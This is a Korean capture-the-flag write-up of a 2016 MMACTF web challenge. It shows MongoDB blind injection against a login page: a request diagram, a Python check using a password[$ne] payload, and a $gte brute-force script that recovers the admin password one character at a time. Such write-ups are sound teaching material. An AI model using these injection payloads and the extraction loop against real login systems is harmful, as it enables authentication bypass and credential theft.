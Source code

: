 ================================================================================================================
[2016_MMACTF] [WEB] Get the admin password
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8 -> step10 -> step12;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9 -> step11 -> step13;
        }
        step0 -> step1[label="post_data: {user=admin&password[$ne]=1}",arrowhead="normal"];
        step3 -> step2[label="login success",arrowhead="normal"];
        step4 -> step5[label="post_data: {user=admin&password[$gte]=T}",arrowhead="normal"];
        step7 -> step6[label="login success",arrowhead="normal"];
        step8 -> step9[label="post_data: {user=admin&password[$gte]=U}",arrowhead="normal"];
        step10 -> step11[label="login fail",arrowhead="normal"];

    }

|

취약점 존재 여부 확인
================================================================================================================

- POST 로그인 페이지 취약점
- MongoDB, Blind Injection
- $ne 연산자를 통해 취약점 존재를 확인

.. code-block:: python

    import requests

    url = "http://gap.chal.ctf.westerns.tokyo/login.php"

    data = {
        "user": "admin",
        "password[$ne]":"1"
    }
    r = requests.post(url, data=data, verify=False)

    print r.content


|

무차별 대입
================================================================================================================

$gte 연산자를 이용하여 무작위 대입을 진행하여 True를 출력하는 결과를 확인합니다.

.. code-block:: python

    import requests

    url = "http://gap.chal.ctf.westerns.tokyo/login.php"

    result = ''
    while 10:
        for l in reversed(range(33,127)):
            data = {
                "user": "admin",
                "password[$gte]":result + chr(l)
            }
            r = requests.post(url, data=data, verify=False)

            if "TWCTF" in r.content:
                result += chr(l)
                print result
                break

